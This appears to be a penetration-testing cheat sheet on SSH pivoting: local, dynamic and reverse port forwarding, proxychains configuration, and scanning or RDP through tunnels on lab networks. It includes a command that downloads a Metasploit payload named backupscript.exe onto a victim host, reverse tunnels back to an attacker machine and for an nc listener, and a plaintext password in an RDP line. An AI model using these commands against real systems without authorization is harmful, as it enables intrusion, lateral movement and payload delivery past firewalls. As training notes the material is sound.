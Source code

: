 ```yaml
---
description: This is more of a cheat sheet for commands.
---
```


# SSH

## Local Port Forwarding

### Local Port Forwarding

```bash
 ssh -L 1234:localhost:3306 Ubuntu@10.129.202.64
```

Opens a listener on local port 1234 (our machine) and sends all traffic to remote port 3306 (10.129.202.64).

### Forwarding multiple ports

```bash
 ssh -L 1234:localhost:3306 8080:localhost:80 ubuntu@10.129.202.64
```

This SSH command connects to a remote machine and sets up two local port forwards:

1. Local port 1234 forwards to port 3306 on the remote machine (typically MySQL).
2. Local port 8080 forwards to port 80 on the remote machine (typically HTTP).

### Local Port Forwarding Example

<figure><img src="../../.gitbook/assets/Screenshot 2023-10-03 194415.png" alt=""><figcaption></figcaption></figure>

```bash
jumphost@ubuntu ssh -N -L 0.0.0.0:4455:172.16.50.217:445 database_admin@10.4.50.215
```

Opens a listener on port 4455 (CONFULENCE01 Jump Host) and forwards all traffic through 10.4.50.215 to 172.16.50.217:445. (PGDATABASE01).

_<mark style="color:red;">**NOTE**</mark>_: **-N** flag is means execute no remote commands. No shell will be opened.

## Dynamic Port Forwarding - Tunneling over SOCKS proxy

Local port forwarding is limited to one socket per SSH connection. OpenSSH allows for dynamic port forwarding. From a single listening port, packets can be forwarded to any socket that the server can route to. **This works because the listening port creates a SOCKS proxy.**

### D_**ynamic Port Forwarding from Attack Host:**_

```shell-session
attacker@kali$ ssh -D 9050 ubuntu@10.129.202.64
```

_<mark style="color:red;">**NOTE:**</mark>_ The **-D** flag enables dynamic port forwarding & ssh acts as a SOCKS server.

```bash
$ tail -4 /etc/proxychains.conf

# meanwile
# defaults set to "tor"
socks4 	127.0.0.1 9050
```

### D_**ynamic Port Forwarding From Jump Host:**_

```shell-session
jump-host@ubuntu$ ssh -D 9050 ubuntu@172.167.32.11
```

```bash
┌──(kali㉿kali)-[~]
└─$ tail -f /etc/proxychains4.conf
# defaults set to "tor"
#socks4         127.0.0.1 9050
socks5  192.168.198.63  9050 # Ip address of jump host

```

### Using tools with Proxychains:

_**Nmap:**_&#x20;

This is my preferred nmap command to run. (172.16.50.217 is in internal network)

```
kali@kali:~$ proxychains nmap -vvv -sT --top-ports=20 -Pn 172.16.50.217
```

_**xfreerdp:**_

```bash
kali@kali proxychains xfreerdp /v:172.16.5.19 /u:victor /p:pass@123
```

## Remote Port Forwarding

Also known as **Reverse Port Forwarding**. In real world scenarios it is likely we'll encounter a firewall that heavily restricts inbound connections. Outbound connections however, are less likely to be blocked.&#x20;

<figure><img src="../../.gitbook/assets/Screenshot 2023-10-04 153523.png" alt=""><figcaption></figcaption></figure>

### Start SSH Service

```shell-session
kali:~$ sudo systemctl start ssh
```

### Connect back to Kali Host

The below command opens a port on localhost 2345 on our kali machine. All traffic is forwarded through the jump host to 10.4.50.215:5432.

<pre class="language-shell-session"><code class="lang-shell-session"><strong>victim@jump-host$ ssh -N -R 127.0.0.1:2345:10.4.50.215:5432 kali@192.168.118.4
</strong></code></pre>

### Verifying Port Forward

As we can see, our kali box is listening on 127.0.0.1 2345

```
kali@kali$ ss -ntlpu                     
Netid            State             Recv-Q            Send-Q                       Local Address:Port                          Peer Address:Port            Process            
udp              UNCONN            0                 0                                  0.0.0.0:52704                              0.0.0.0:*                                  
tcp              LISTEN            0                 128                              127.0.0.1:2345                               0.0.0.0:*                                  
tcp              LISTEN            0                 128                                0.0.0.0:22                                 0.0.0.0:*                                  
tcp              LISTEN            0                 128                                   [::]:22                                    [::]:*      
```

## Remote Dynamic Port Forwarding

_<mark style="color:red;">**NOTE:**</mark>_ This tends to be the most optimal setup for port forwarding during engagements. We get all the benefits from Dynamic Port forwarding along with the remote configurations.&#x20;

### Create Dynamic Remote Port Forward

Creating a Dynamic Remote Port Forward is similar to creating a Remote port forward. We use the -R command but only with one port. We do not specify and address! Neither do we use -D!

```shell-session
jumphost@ubuntu$ ssh -N -R 9998 kali@192.168.118.4
```

### Update SOCKS Proxy - proxychains

```bash
kali@kali:~$ tail /etc/proxychains4.conf
#       proxy types: http, socks4, socks5, raw
#         * raw: The traffic is simply forwarded to the proxy without modification.
#        ( auth types supported: "basic"-http  "user/pass"-socks )
#
[ProxyList]
# add proxy here ...
# meanwile
# defaults set to "tor"
socks5 127.0.0.1 9998 # IP address is localhost 127.0.0.1
```

### Verifying Port Forward

As we can see, our kali box is listening on 127.0.0.1 9998

```shell-session
kali@kali$ ss -ntlpu                     
Netid            State             Recv-Q            Send-Q                       Local Address:Port                          Peer Address:Port            Process            
udp              UNCONN            0                 0                                  0.0.0.0:52704                              0.0.0.0:*                                  
tcp              LISTEN            0                 128                              127.0.0.1:9998                               0.0.0.0:*                                  
tcp              LISTEN            0                 128                                0.0.0.0:22                                 0.0.0.0:*                                  
tcp              LISTEN            0                 128                                   [::]:22
```



## Additional Info

### Transferring Metasploit Binary to Victim (on internal network).

We may need to transfer a binary to a machine we've gained access to so we can port forward.

```powershell
PS C:\Windows\system32> Invoke-WebRequest -Uri "http://172.16.5.129:8123/backupscript.exe" -OutFile "C:\backupscript.exe"
```



### Tunneling to Kali Web Server

If the host has ssh we can connect back to our kali box to tunnel traffic.

This is a command to tunnel all traffic through a jump host back to our kali web server. This is useful when downloading tool to a host inside an internal network.&#x20;

```powershell
C:\Users\web_svc>ssh -N -L 0.0.0.0:1234:192.168.45.186:8000 kali@192.168.45.186
```

### Tunneling NC Listener

Like the above command, we can do the same to create a tunnel for a nc listener

```powershell
C:\Users\web_svc>ssh -N -L 0.0.0.0:1234:192.168.45.186:4444 kali@192.168.45.186
```



### Tunnel Internal Web Service

Like we did above we can portforward an internal web service back to our kali host.

#### Reverse Port Forward

```bash
victim@ubuntu ssh -N -R web_service_port:localhost:local_port kali@192.168.45.186
```

#### Local Port Forward

```bash
kali@kali ssh -L local_port:localhost:web_service_port victim@victim_ip
```



## Port Forwarding an Internal Web Service

Say we discover a web service that is running locally, or only allows 127.0.0.1 to authenticate. We can port forward the service back to our kali host and access it locally.

<figure><img src="../../.gitbook/assets/image (46).png" alt=""><figcaption></figcaption></figure>

```bash
$ ssh nadine@10.10.10.184 -L 8443:127.0.0.1:8443
```
